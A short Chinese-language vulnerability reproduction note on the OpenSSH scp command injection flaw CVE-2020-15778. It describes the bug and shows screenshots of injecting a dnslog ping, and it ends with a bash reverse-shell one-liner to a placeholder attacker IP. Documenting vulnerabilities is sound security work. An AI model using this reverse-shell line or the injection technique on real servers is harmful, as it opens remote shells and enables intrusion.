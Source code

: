 # OpenSSH 命令注入漏洞 CVE-2020-15778 

## 漏洞描述

2020年6月9日，研究人员Chinmay Pandya在Openssh中发现了一个漏洞，于7月18日公开。OpenSSH的8.3p1中的scp允许在scp.c远程功能中注入命令，攻击者可利用该漏洞执行任意命令。目前绝大多数linux系统受影响。深信服安全研究团队依据漏洞重要性和影响力进行评估，作出漏洞通告。

## 漏洞影响

<a-checkbox checked>OpenSSH <= 8.3p1</a-checkbox></br>

## 漏洞复现

<a-alert type="success" message="可用于目标不允许远程登录但SCP开启的情况下远程命令执行" description="" showIcon>
</a-alert>

<br/>

攻击机创建 peiqi.txt ，利用 scp上传文件 到 /tmp 目录下

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311162457049.png)

执行命令 ping dnslog



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-6987082.png)



反弹shell 更换命令即可

```plain
/bin/bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
```